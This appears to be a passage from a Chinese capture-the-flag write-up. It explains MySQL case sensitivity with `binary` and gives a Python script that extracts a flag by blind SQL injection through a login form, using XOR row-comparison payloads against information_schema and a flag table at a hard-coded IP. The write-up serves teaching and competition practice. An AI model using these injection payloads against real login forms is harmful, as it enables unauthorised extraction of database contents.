 因为题目大多是在linux上，所以这个的值为0，所以爆表名库名之类的时候，即使不加上`binary`，也会区分大小写，但是对于真正的数据表，如果不加上`binary`的话，是不区分大小写的，所以会出问题。



## WP

回到题目上来。这题具体的也就不分析了，简单的尝试一下写python脚本来爆破的过程叭。

python脚本：

```python
import requests

url="http://47.99.38.177:10084"

flag=""
for i in range(100):
    for j in "/0123456789:;ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_.{|}~":
        #payload="1'^((binary'{}','')<(table/**/information_schema.TABLESPACES_EXTENSIONS/**/limit/**/6,1))#".format(flag+chr(j))
        #payload="1'^((binary'{}','')<(table/**/information_schema.TABLESPACES_EXTENSIONS/**/limit/**/7,1))#".format(flag+chr(j))
        payload="1'^(('1',binary'{}')<(table/**/f1aggghere))#".format(flag+j)


        #payload="1'^((binary'ctf/users','')<(table/**/information_schema.TABLESPACES_EXTENSIONS/**/limit/**/6,1))#"
        data={
            'username':payload,
            'password':1
        }
        r=requests.post(url=url,data=data)
        #print(len(r.text))
        if len(r.text) == 1742:
            flag += chr(ord(j)-1)
            print(flag)
            break
        if j == "~":
            flag = flag[:len(flag)-1]+chr(ord(flag[-1])+1)
            print(flag)
            exit()


"最后一位不需要偏移"
"ctf/users"
"ctf/f1aggghere"
```



首先要爆出数据库和表：

```python
        payload="1'^((binary'{}','')<(table/**/information_schema.TABLESPACES_EXTENSIONS/**/limit/**/6,1))#".format(flag+chr(j))
        payload="1'^((binary'{}','')<(table/**/information_schema.TABLESPACES_EXTENSIONS/**/limit/**/7,1))#".format(flag+chr(j))
```
